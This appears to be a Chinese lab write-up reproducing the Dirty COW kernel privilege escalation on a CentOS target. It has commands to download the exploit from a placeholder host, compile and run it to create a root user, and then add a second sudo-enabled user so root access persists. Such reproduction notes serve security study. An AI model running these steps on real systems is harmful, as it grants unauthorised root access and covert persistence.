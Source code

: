 ```yaml
---
title: 脏牛提权复现
date: 2023-09-03T15:29:52+08:00
updated: 2023-08-11T23:14:01+08:00
categories: 
- 渗透测试
- 漏洞复现
- 提权
---
```


## 漏洞介绍

漏洞具体是由于get_user_page内核函数在处理Copy-on-Write的过程中，可能产出竞态条件造成COW过程被破坏，导致出现写数据到进程地址空间内只读内存区域的机会。修改su或者passwd程序就可以达到root的目的。

## 环境搭建

注意影响的内核版本(低于)

```
Centos7/RHEL7     3.10.0-327.36.3.el7
Cetnos6/RHEL6     2.6.32-642.6.2.el6
Ubuntu 16.10      4.8.0-26.28
Ubuntu 16.04      4.4.0-45.66
Ubuntu 14.04      3.13.0-100.147
Debian 8          3.16.36-1+deb8u2
Debian 7          3.2.82-1
```

复现采用的版本

![uname](E:\笔记软件\笔记\渗透测试\漏洞复现\提权\脏牛\uname.png)

安装apache,php服务

```
yum  -y install httpd php
```

关闭防火墙，开启80端口即可启动httpd服务

## 漏洞复现

上传exp到目标靶机的tmp目录(注意要是可写可编译的目录)

```
wget http://xxxx:8000/dirty.c
```

编译exp

```
gcc -pthread dirty.c -o dirty –lcrypt
```

执行该脚本创建具有root权限的用户

```
./dirty 114514
```

查看etcpasswd能看到名为firefart的root用户

![firefart](E:\笔记软件\笔记\渗透测试\漏洞复现\提权\脏牛\firefart.png)

使用su命令切换到该用户

```
su firefart
```

![su命令](E:\笔记软件\笔记\渗透测试\漏洞复现\提权\脏牛\su命令.png)

成功提权到root权限，成功后使用脚本保存的/passwd.bak文件恢复原有的文件

```
mv /tmp/passwd.bak /etc/passwd
```

还原后不用急着退出，通过创建新的root权限用户来保存我们原有的root权限

```
adduser dirty
passwd dirty
```

更改sudoers文件，使dirty用户拥有所有权限

![dirty](E:\笔记软件\笔记\渗透测试\漏洞复现\提权\脏牛\dirty.png)

切换为dirty用户即可执行root用户的命令

**注意**

编译gcc文件最好是在目标靶机上进行编译，谨防模块的缺失和版本不同，利用该漏洞前注意确认内核版本

### 参考链接

https://github.com/FireFart/dirtycow

https://xz.aliyun.com/t/9757